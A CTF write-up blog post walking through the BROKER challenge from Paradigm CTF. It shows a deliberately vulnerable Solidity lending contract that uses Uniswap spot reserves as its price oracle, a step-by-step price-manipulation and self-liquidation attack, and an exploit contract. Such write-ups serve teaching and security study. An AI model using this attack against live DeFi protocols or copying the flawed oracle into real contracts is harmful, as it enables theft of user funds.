

+++
title = "BROKER Challenge - Paradigm CTF (Part 2 of 3)"
date = 2021-02-14T19:28:00Z
+++

<style>
pre {
line-height: 1.3em !important;
}
</style>

## Introduction

In my [previous post][prev], I gave a short summary of the BABYCRYPTO challenge from Paradigm's recent Capture the Flag competition. This time around, I'll be walking through the BROKER challenge, which [@lightclients] and I solved together. If you'd like more details on the competition or the format of the challenges, go and give my [previous post][prev] a read first.

## Challenges

### BROKER

After BABYCRYPTO, I joined [@lightclients] on the BROKER challenge:



From the description, we initially assumed this challenge would have something to do with either a logic error in a contract, or some sort of market manipulation. Here's what was in the archive:

<pre><font color="#3465A4"><b>.</b></font>
└── <font color="#3465A4"><b>broker</b></font>
    └── <font color="#3465A4"><b>public</b></font>
        ├── <font color="#3465A4"><b>contracts</b></font>
        │   ├── Broker.sol
        │   └── Setup.sol
        ├── <font color="#3465A4"><b>deploy</b></font>
        │   ├── chal.py
        │   ├── compiled.bin
        │   └── requirements.txt
        └── Dockerfile
</pre>

This format, which differed from BABYCRYPTO, was the same for all of the other challenges: `chal.py` did some magic to spin up a test chain (either `ganache` or `hardhat`) and then would check [`Setup.sol`][setup] before releasing the flag.

#### Win Condition

Let's take a look at the win condition for BROKER to narrow down what we're looking for:

```solidity
function isSolved() public view returns (bool) {
    return weth.balanceOf(address(broker)) < 5 ether;
}
```

In other words, we're looking to reduce the Wrapped ETH (aka. [`weth`](https://weth.io/), an ERC-20 representing ETH) balance of some address `broker` to less than five ether.

#### Environment

The `Setup.sol` contract gives us quite a bit of information about the chain and the contracts we'll have at our disposal. Starting with the first two constants in `Setup`:

```solidity
WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
IUniswapV2Factory public constant factory = IUniswapV2Factory(0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f);
```

What immediately sticks out is that we have an [`IUniswapV2Factory`][factory] deployed at [`0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f`][etherscan-factory]. That's the same address as Uniswap on mainnet, implying we're running on a fork of mainnet! That gives us a _ton_ of tools like flashloans, the rest of Uniswap, and pretty much anything else you can think of. Great. The `weth` address also matches the mainnet token, so we have twice the confirmation[^1].

That's not all `Setup.sol` has to offer. We've got a mysterious `Token` contract, with an `airdrop` function:

```solidity
function airdrop() public {
    require(!dropped[msg.sender], "err: only once");
    dropped[msg.sender] = true;
    balanceOf[msg.sender] += AMT;
    totalSupply += AMT;
}
```

So we can get our dirty degen hands on some tokens! What does the token have to do with Uniswap? Well, the setup creates a Uniswap trading pair:

```solidity
pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
```

Then it adds an initial liquidity pool between WETH and our magical token:

```solidity
// 1:25
weth.transfer(address(pair), 25 ether);
token.transfer(address(pair), 500_000 * DECIMALS);
pair.mint(address(this));
```

So, to summarize:

 - We're on a fork of mainnet, and have access to all the wonderful finance tools therein.
 - We have a magical token (MagicToken from now on.)
 - We can get a fat stack of MagicToken, but only once.
 - We have a Uniswap pair that can trade WETH for MagicToken.

##### Aside: What is Uniswap?

I'm not going to pretend to be an expert on Uniswap. There [are][u0] [much][u1] [better][u2] [places][u3] to learn about its many intricate details. Here's what I understand about Uniswap and what ended up being relevant to this challenge:

 - Uniswap is a decentralized exchange where users can swap between pairs of tokens.
 - Each trading pair is represented by an on-chain contract with the `IUniswapV2Pair` interface.
 - The pair contract maintains a balance of each token.
 - The exchange rate between tokens in a pair is determined by the ratio of the contract's balance of each token (something like `token0.balanceOf(pair) / token1.balanceOf(pair)`.)
 - Finally, the most important: **swapping one token for the other changes the ratio, and therefore changes the exchange rate**.

#### Target

Here is the `Broker` contract from [`Broker.sol`](./Broker.sol):

```solidity
// a simple overcollateralized loan bank which accepts WETH as collateral and a
// token for borrowing. 0% APRs
contract Broker {
    IUniswapV2Pair public pair;
    WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    ERC20Like public token;


    mapping(address => uint256) public deposited;
    mapping(address => uint256) public debt;

    constructor (IUniswapV2Pair _pair, ERC20Like _token) {
        pair = _pair;
        token = _token;
    }

    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }

    function safeDebt(address user) public view returns (uint256) {
        return deposited[user] * rate() * 2 / 3;
    }

    // borrow some tokens
    function borrow(uint256 amount) public {
        debt[msg.sender] += amount;
        require(safeDebt(msg.sender) >= debt[msg.sender], "err: undercollateralized");
        token.transfer(msg.sender, amount);
    }

    // repay your loan
    function repay(uint256 amount) public {
        debt[msg.sender] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
    }

    // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }

    // top up your collateral
    function deposit(uint256 amount) public {
        deposited[msg.sender] += amount;
        weth.transferFrom(msg.sender, address(this), amount);
    }

    // remove collateral
    function withdraw(uint256 amount) public {
        deposited[msg.sender] -= amount;
        require(safeDebt(msg.sender) >= debt[msg.sender], "err: undercollateralized");

        weth.transfer(msg.sender, amount);
    }
}
```

From the comment and code, we can figure out how this contract is supposed to work:

1. You `deposit` some amount of WETH into the `Broker` contract, to use as collateral later on.
2. You `borrow` some amount of MagicToken, limited by how much collateral you've deposited (calculated in `safeDebt`.)
3. Any number of:
    1. You `repay` some/all of your debt, in MagicTokens.
    2. You `withdraw` collateral, limited by how much you have borrowed (calculated by `safeDebt` again.)
    3. Your `safeDebt` value falls below your current debt, and someone `liquidate`s your position.

#### The Attack

##### Inception

Armed with the information above, we can start sketching out our attack:

 - We need to drop the `Broker`'s WETH balance below 5 ether.
 - The `Broker` sends WETH in two places: `withdraw` and `liquidate`.
 - `withdraw` is pretty simple, so isn't a likely target for exploit.
 - `liquidate` calls into `safeDebt` **and** `rate`! This is a likely target.

##### Toolbox

What can we manipulate in `liquidate`? We have access to:

 - Amount deposited (`deposit` / `withdraw`),
 - Amount borrowed (`borrow` / `repay`), and
 - Ratio (`rate`) between WETH and MagicToken (by buying or selling on Uniswap).

##### Instructions

So here's our attack strategy:

1. Increase `rate()` as much as possible, by buying up, uh, `token1` and/or selling `token0`?
2. Deposit some collateral.
3. Borrow a bunch of MagicTokens.
4. Crash `rate()` by selling `token1` and/or buying `token0`.
5. Liquidate our own position, extracting WETH from the contract.
6. Repeat!

##### Difficulties

There are a couple issues here that I didn't quite realize until later on. Which token is the numerator and which is the denominator in `rate()`? How do you even make a trade on Uniswap?

#### The Exploit (Attempt #1)

We (or rather, I) charged ahead and wrote an [exploit contract](./Exploit.sol). I don't mind taking all of the credit for this abomination because, spoiler alert, it didn't work.

Here are the most relevant bits:

```solidity
contract Exploit {
    IERC20 immutable token0;
    IERC20 immutable token1;

    IUniswapV2PairReal immutable pair;
    Broker immutable broker;

    Token immutable token;
    WETH9 immutable weth;

    // The Uniswap router contract exposes some higher level APIs for doing a swap.
    // Instead of figuring out how to invoke the pair directly, I used the router.
    IUniswapV2Router02 constant router = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);

    constructor(Setup setup) payable {
        // Collect some useful addresses.
        IUniswapV2PairReal _pair = IUniswapV2PairReal(address(setup.pair()));
        Token _token = setup.token();
        IERC20 _token0 = IERC20(_pair.token0());
        IERC20 _token1 = IERC20(_pair.token1());
        Broker _broker = setup.broker();
        WETH9 _weth = setup.weth();

        // Mint ourselves some WETH to use later on.
        _weth.deposit{value: msg.value}();

        // Get some of that sweet MagicToken airdropped.
        _token.airdrop();

        // Flail around approving every combination of token and operator!
        _token0.approve(address(router), type(uint256).max);
        _token0.approve(address(_broker), type(uint256).max);

        _token1.approve(address(router), type(uint256).max);
        _token1.approve(address(_broker), type(uint256).max);

        // Store some constants for later.
        weth = _weth;
        token0 = _token0;
        token1 = _token1;
        pair = _pair;
        broker = _broker;
        token = _token;
    }

    function run() external {
        // Figure out how much of token0 we have.
        uint256 t0Balance = token0.balanceOf(address(this));

        // Prepare the "route" we need to trade through to swap token0 for token1.
        address[] memory path = new address[](2);
        path[0] = address(token0);
        path[1] = address(token1);

        // Do the exchange!
        // I only used half of our balance of token0 because we needed some left over for later.
        router.swapExactTokensForTokens(t0Balance / 2, 1, path, address(this), type(uint256).max);

        // Deposit collateral, again only using half in case we needed more.
        uint256 wBalance = weth.balanceOf(address(this));
        broker.deposit(wBalance / 2);

        // Borrow as much MagicToken as we can!
        uint256 borrowed = broker.safeDebt(address(this));
        broker.borrow(borrowed);

        // Get our balance of token1 to swap it back
        uint256 t1Balance = token1.balanceOf(address(this));

        // Invert the route
        (path[0], path[1]) = (path[1], path[0]);

        // Swap!
        router.swapExactTokensForTokens(t1Balance - borrowed, 1, path, address(this), type(uint256).max);

        // Liquidate ourselves.
        broker.liquidate(address(this), borrowed);
    }
}
```

#### The Exploit (Attempt #2)

Now, obviously, this didn't work. Why? I never bothered to find out. To debug the contract, we set up Remix so we could access all the relevant parts. We had buttons to swap. We had buttons to borrow. We had so many buttons we didn't know what to do with them all.

We manually went through the steps in the contract. First manipulating the pair to raise `safeDebt`, then we deposited and borrowed, swapped the tokens back, and then called `liquidate`. The contract sent us WETH. Its balance had dropped. We rejoiced, and repeated the process. I wish I could say we were methodical or principled in our approach, but honestly we just swapped progressively smaller amounts until we eventually dropped the broker below the goal.

So children, it turns out you don't need a fancy exploit, all you need is Remix, about a million buttons, and a dream.

# Conclusion

That's another one down! My next post will be on the BABYREV challenge, which was about 1% reverse engineering and 99% perseverance.

## Footnotes

[^1]: As it turns out, most (and likely all) of the eth challenges were forked off of mainnet.

[prev]: @/posts/paradigm-ctf/index.md
[setup]: ./Setup.sol
[@lightclients]: https://twitter.com/lightclients
[factory]: https://uniswap.org/docs/v2/smart-contracts/factory/
[etherscan-factory]: https://etherscan.io/address/0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f
[u0]: https://uniswap.org/docs/v2/protocol-overview/how-uniswap-works/
[u1]: https://www.youtube.com/watch?v=Ui1TBPdnEJU
[u2]: https://docs.ethhub.io/guides/graphical-guide-for-understanding-uniswap/
[u3]: https://academy.binance.com/en/articles/what-is-uniswap-and-how-does-it-work
